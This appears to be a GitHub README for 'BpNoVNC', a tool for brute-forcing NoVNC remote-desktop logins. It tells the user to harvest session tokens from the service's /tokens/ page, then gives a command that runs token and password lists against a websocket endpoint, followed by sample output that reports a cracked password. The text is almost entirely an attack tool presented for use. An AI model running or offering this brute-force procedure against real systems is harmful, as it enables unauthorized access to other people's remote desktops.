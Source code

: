 # BpNoVNC
爆破NoVNC

* token默认为空,
* 通常在http://1.2.1.1:6080/tokens/ 页面复制到token.txt


```
python3 BpNoVNC.py -t ws://1.2.1.1:6080 -tf token.txt -pf pass.txt

[*]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:123123
[*]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:VNC
[-]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:123123
[+]: ws://1.2.1.1:6080/?token=500a58ea-e1cc-b299-66d0-3001d6e10bff password:VNC
```
